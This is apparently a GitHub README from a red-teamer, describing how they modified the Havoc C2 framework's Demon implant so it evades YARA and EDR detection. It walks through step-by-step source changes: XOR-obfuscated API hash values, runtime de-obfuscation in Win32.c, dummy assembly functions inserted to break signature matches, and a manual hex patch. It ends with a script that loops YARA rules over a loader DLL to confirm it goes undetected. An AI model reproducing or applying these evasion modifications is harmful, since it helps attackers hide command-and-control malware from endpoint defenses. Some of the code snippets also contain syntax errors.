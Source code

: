 # Havoc-C2-Modification-YARA-Free

# POC of modifying YARA signautre on [Havoc C2](https://github.com/HavocFramework/Havoc). 
This was during one of red team I had to modify open-source C2 to make YARA free, therefore it would be safer to execute in memory by a loader and evade 
common YARA scanning by EDRs. I was able to achieve 0% YARA detections. The main steps are the following:

1.Modify [hash_func.py](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/scripts/hash_func.py) to generate different hash values that are flagged by YARA rules

```js
import sys

def hash_string( string ):
    try:
        hash = 5381

        for x in string.upper():
            hash = (( hash << 5 ) + hash ) + ord(x)

            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key 

        return hash & 0xFFFFFFFF
    except:
        pass

def hash_coffapi( string ):
    try:
        hash = 5381

        for x in string:
            hash = (( hash << 5 ) + hash ) + ord(x)

        
            hash ^= 0xA5A5A5A5 // we are xoring the hash values with the key  


        return hash & 0xFFFFFFFF
    except:
        pass

if __name__ in '__main__':
    try:
        print('#define H_FUNC_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_string( sys.argv[ 1 ] ) ));
        print('#define H_COFFAPI_%s 0x%x' % ( sys.argv[ 1 ].upper(), hash_coffapi( sys.argv[ 1 ] ) ));
    except IndexError:
        print('usage: %s [string]' % sys.argv[0]);
```

2.Replace them in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
define XOR_KEY 0xA5A5A5A5


#define H_FUNC_LDRLOADDLL 0x3be0cfe6
#define H_FUNC_LDRGETPROCEDUREADDRESS 0x5942ce13
#define H_FUNC_NTADDBOOTENTRY 0x295962d3
#define H_FUNC_NTALLOCATEVIRTUALMEMORY 0x52261d49
#define H_FUNC_NTFREEVIRTUALMEMORY 0x8da763ac
#define H_FUNC_NTUNMAPVIEWOFSECTION 0xcf01b768
#define H_FUNC_NTWRITEVIRTUALMEMORY 0x66b2a437
#define H_FUNC_NTSETINFORMATIONVIRTUALMEMORY 0x31cf679c
#define H_FUNC_NTQUERYVIRTUALMEMORY 0xb5654df8
#define H_FUNC_NTOPENPROCESSTOKEN 0x90a86f3c
#define H_FUNC_NTOPENTHREADTOKEN 0x2596e277
```
3. Add the XOR logic in [Win32.c](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/src/core/Win32.c), the idea is to dynamicly XORing back to the orignal values of the API hash functions during run time, so YARA will not flag the hardcoded values in demon.bin defined in [Define.h](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Demon/include/common/Defines.h)

```js
#define XOR_KEY 0xA5A5A5A5 // the key we used to xor the hash values


PVOID LdrFunctionAddr(
    IN PVOID Module,
    IN DWORD Hash
) {
    PIMAGE_NT_HEADERS       NtHeader         = { 0 };
    PIMAGE_EXPORT_DIRECTORY ExpDirectory     = { 0 };
    SIZE_T                  ExpDirectorySize = { 0 };
    PDWORD                  AddrOfFunctions  = { 0 };
    PDWORD                  AddrOfNames      = { 0 };
    PWORD                   AddrOfOrdinals   = { 0 };
    PVOID                   FunctionAddr     = { 0 };
    PCHAR                   FunctionName     = { 0 };
    ANSI_STRING             AnsiString       = { 0 };

    if ( ! Module || ! Hash )
        return NULL;

    NtHeader         = C_PTR( Module + ( ( PIMAGE_DOS_HEADER ) Module )->e_lfanew );
    ExpDirectory     = C_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].VirtualAddress );
    ExpDirectorySize = U_PTR( Module + NtHeader->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_EXPORT ].Size );

    AddrOfNames      = C_PTR( Module + ExpDirectory->AddressOfNames );
    AddrOfFunctions  = C_PTR( Module + ExpDirectory->AddressOfFunctions );
    AddrOfOrdinals   = C_PTR( Module + ExpDirectory->AddressOfNameOrdinals );

    if (IsPredefinedHash(Hash)) {
        Hash ^= XOR_KEY; // use the same key to xor back whenever the demon calls hashes APIs
    }

```

4. Modify the [Asm.s](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Havoc/payloads/Shellcode/Source/Asm/x64/Asm.s) Assemby and add a dummy functions to break the ROP gadget logic to evade YARA detection 

`````js
; Define the dummy function
DummyFunction:
        ; Save registers (if needed)
        push    rax
        push    rbx
        push    rcx
        push    rdx

        ; Dummy operations
        nop     ; No operation
        nop     ; No operation
        nop     ; No operation

        ; Restore registers
        pop     rdx
        pop     rcx
        pop     rbx
        pop     rax

        ; Return from the dummy function
    ret

section .text$A
	Start:
        call    DummyFunction     // break the following calling logic    
        push    rsi               // <-----detection starts here
        nop                       
        mov		rsi, rsp
``````

5. Last step is to  manually remove using the [Hxd tool](https://mh-nexus.de/en/hxd/) to  change one hex value

    Step 4 and 5 refer the that [blog](https://karma-x.io/blog/post/18/) and the demo below

    [Click here to check out demo for manually modifying the hex value](https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view)


<video width="600" controls>
  <source src="https://drive.google.com/file/d/13tZNTVFa5PXiA4tVN17b8KBguBuCT-M-/view" type="video/mp4">
  Your browser does not support the video tag.
</video>



6. The whole modified havoc is here, you can download and compile your own to make modificatio and YARA check using a simple [python script](https://github.com/JimKw1kX/Havoc-C2-Modification-YARA-Free/blob/main/Yara%20Scan%20Checker/yara_check.py) like the following with updated [yara rules](https://github.com/elastic/protections-artifacts), you can add [pe-sieve](https://github.com/hasherezade/pe-sieve) and [moneta](https://github.com/forrest-orr/moneta) in the script to check addtioanl memory region for the shellcode and modify it accordingly.


```js
import os
import sys
import subprocess


directory = ('C:\\Users\\User\\Downloads\\Mem_Scan\\protections-artifacts-main\\protections-artifacts-main\\yara\\rules')
target = 'C:\\Users\\User\\Desktop\\Payloads\\Products\\double_module_stomp\\PayloadLoader\\x64\\Release\\DllLoader.dll'

for fileanme in os.listdir(directory):
    filepath = os.path.join(directory, fileanme)

    if os.path.isfile(filepath):
        cmd = ['yara64.exe','-s', filepath, target]
        result = subprocess.run(cmd, capture_output=True, text=True)
        if result.stdout:
            with open('yara_loader_result.txt', 'a') as f:
                outout = f'Detected===>!!!\\n{filepath} ====>\n {result.stdout}'
                print(outout)

```

# DEMO 

You can also check out the demo for the final version of the cleaned shellcode YARA scan [here](https://drive.google.com/file/d/1vkOEhy7eR_kjewiJaoxkTosBVLG5HxkB/view?usp=sharing)



